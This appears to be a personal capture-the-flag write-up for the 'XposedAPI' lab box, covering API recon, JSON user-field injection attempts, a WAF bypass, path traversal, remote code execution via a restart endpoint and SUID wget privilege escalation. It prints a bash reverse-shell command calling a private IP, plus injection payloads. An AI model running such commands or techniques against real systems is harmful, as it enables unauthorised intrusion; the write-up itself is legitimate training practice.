 # XposedAPI Writeup

Name: XposedAPI
Date:  4/11/2023
Difficulty:  Intermediate
Goals: 
- TJNULL clearance
Learnt:
- API routes are more important than an endpoint, but understanding the endpoint is more important that any route.
- I am so close to not rabbit holing
- None of these boxes from Proving Ground ever make you spray users and password  
Beyond Root:
- Write some C and use make some how twinned with [[Sybaris-Helped-Through]]

- [[XposedAPI-Notes.md]] - tried to just hack the machine and not worry about noting just screenshotting everything 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Checking port 13337 with `curl`
![](curlingtheapi.png)

Collection the routes to ingest in the automating the content discovery if required
![](initialroutes.png)

We are denied by the WAF
![](wafonlogs.png)
Failed bypass attempt - I forget about `X-Forwarded-For:`, but I was in the correct direction
![](nohostbypasswafonlogs.png)

![](gobustertheroutes.png)

Version 
![](apiversion.png)

Breaking JSON for the error 
![1080](checkingforzerourlfiltering.png)

Invalid user, we need a user...
![](invalidusername.png)
Hitting the wall of the API
![](timeoutgobuster.png)

Trying harder to get by without a username:
HackTrick API 
```json
{"user" :"gunicorn", "url":  "/logs",}
{"user" :true, "url":  "/logs",}
{"user" :null, "url":  "/logs",}
{"user" :1, "url":  "/logs",}
{"user" :[true], "url":  "/logs",}
{"user" :["gunicorn", true], "url":  "/logs",}
{"user" :$neq:"gunicorn", "url":  "/logs",}
// Send array 
{user=gunicorn, "url":  "/logs",}
```
- tried also www-data, root
- checked hints names confirming RCE which seems obvious but time 
- took hint:
	- One endpoint has a vulnerability you need to leverage to exploit another endpoint. Find a username.

![](trueuser.png)
...
![](nulluser.png)
...
![](1user.png)
...
![](sqauretrueuser.png)
...
![](squaretrueadminuser.png)
...
![](neqgunicornuser.png)
...
![](arrayuser.png)

Did not find any users with `ffuf`
![](ffufusers.png)

Tried to overflow the application encase it is a buffer overflow mostly for completionism's stake
![](aaaaaaaaaaausername.png)

Tried encoding a breaking the strings quotes
![](nobreakyjson.png)

Tried wildcards for /log route to bypass the WAF and get some logs
![](wildcardlogs.png)
...
![](percentlogs.png)
...
![](underscorelogs.png)
...
![](dotlogs.png)
...
![](wilddotlogs.png)

Tried arjun to brute force any obvious parameters I may have missed and just to test it
![](tryingarjun.png)

Tried a tool to enumerate the WAF
![](wafw00ftest.png)

## Exploit

At this point I took a hint: which I forget to copy down, but essentially it said something about RCE, but another endpoint will help get a username.  

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/
```
[**w3af**](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework

[**wafw00f**](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall

[**BypassWAF**](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) **–** Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain. 

[**CloudFail**](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.
```

Dorked bypassing WAF and we were successful
![](bypassingthewaf.png)

We have a path traversal vulnerability for the `/etd/passwd`: 
![](HORAH.png)

Trying with the username `clumsyadmin` for a new response from invalid user.
![](usernamegained.png)
## Foothold

And then the out of band file retrieval and happy I have memorise the differences in terminology for in and out of band attack dichotomy. 
![](justmiter.png)

Sliver beacon by way of updating the application with `/restart` API endpoint. 
![](sliveringtofoothold.png)

## Privilege Escalation

Ran linpeas and almost instantly found the `wget` GTFObin.
![](suidwget.png)

And we are root.
![](root.png)

## Post-Root-Reflection  

I did not use noting for this box. I just tried changing up to more improvised methodology to tried to avoid rabbit holes of service enumeration overload and because I had worked ten hours starting at 5 am and limited sleep. Slept after work and just calmly finished this machine in the 3 hours.

## Beyond Root

Understanding `make` - why does `system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work. Twinned with [[XposedAPI-Writeup]]
```
make -C ./src
```

How to avoid the situation prioritising focusing on contextual awareness over the tried and tested methods or historical?